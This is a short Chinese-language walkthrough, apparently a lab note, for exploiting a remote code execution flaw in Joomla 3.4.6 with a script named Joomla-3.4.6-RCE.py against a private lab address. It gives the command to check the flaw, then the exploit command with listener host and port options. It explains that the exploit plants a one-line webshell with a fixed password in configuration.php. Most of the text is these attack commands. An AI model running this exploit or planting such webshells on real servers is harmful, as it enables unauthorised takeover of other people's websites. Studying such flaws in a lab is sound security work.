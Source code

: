 使用脚本进行验证：显示Vulnerable证明存在漏洞

python3 Joomla-3.4.6-RCE.py -t http://192.168.204.129/exploit/Joomla/

漏洞利用
在configuration.php中写入一句话木马,木马连接密码mbvmmqcrhfnsowwnyvhkkwjejbpytgnznswyefystnqbrirvvg

python3 Joomla-3.4.6-RCE.py -t http://192.168.204.129/exploit/Joomla/ --exploit -l 192.168.204.129 -p 8080


https://www.cnblogs.com/BOHB-yunying/p/11647644.html  文章参考

